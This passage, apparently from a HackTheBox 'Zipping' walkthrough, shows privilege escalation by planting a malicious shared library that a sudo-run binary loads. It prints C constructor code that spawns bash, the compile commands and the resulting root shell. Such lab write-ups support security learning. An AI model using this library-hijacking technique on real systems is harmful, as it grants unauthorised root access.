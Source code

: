 Before it prints the menu, it attempts to load `/home/rektsu/.config/libcounter.so`, but fails because that file doesn’t exist.

### Malicious SO

If I can create a malicious shared object (library) in that location, it will be loaded by the binary. Any code I put into a constructor will be executed. I’ve shown this before, most recently with [Broker](/2023/11/09/htb-broker.html#create-so).

I’ll write a simple C file:

```

rektsu@zipping:/home/rektsu/.config$ cat libcounter.c 
#include <stdlib.h>
__attribute__ ((__constructor__))
void shell(void){
    system("/bin/bash");
}

```

It marks the `shell` function as a constructor, which means it runs when the library is loaded. That function simply calls `/bin/bash`, interrupting the flow of the program and returning an interactive shell.

I’ll compile this as a shared object:

```

rektsu@zipping:/home/rektsu/.config$ gcc -shared -o libcounter.so -fPIC libcounter.c
rektsu@zipping:/home/rektsu/.config$ ls
libcounter.c  libcounter.so

```

Now when I run `sudo stock`, after putting in the password, it drops into `bash` as root:

```

rektsu@zipping:/home/rektsu/.config$ sudo stock
Enter the password: St0ckM4nager
root@zipping:/home/rektsu/.config# id
uid=0(root) gid=0(root) groups=0(root)

```

And I’m able to read the flag:

```

root@zipping:~# cat root.txt
b29a08c2************************

```

## Beyond Root - Unintended Footholds
